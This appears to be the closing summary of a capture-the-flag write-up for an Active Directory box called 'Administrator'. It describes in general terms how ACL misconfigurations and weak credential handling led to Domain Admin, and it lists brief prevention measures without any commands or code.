Administrator was a solid example of how misconfigured Active Directory permissions and weak credential hygiene can lead to full domain compromise. Starting from low-privileged access, we leveraged poor ACL setups, insecure password storage, and service account mismanagement to move laterally and escalate privileges all the way to Domain Admin. This box highlights how attackers don't always need zero-days — common misconfigurations and bad practices are often enough.
Prevention:
- Monitor and Alert on AD Abuse Patterns
- Harden Service Exposure.
- Regularly Audit AD Permissions
- Enforce Strong Credential Hygiene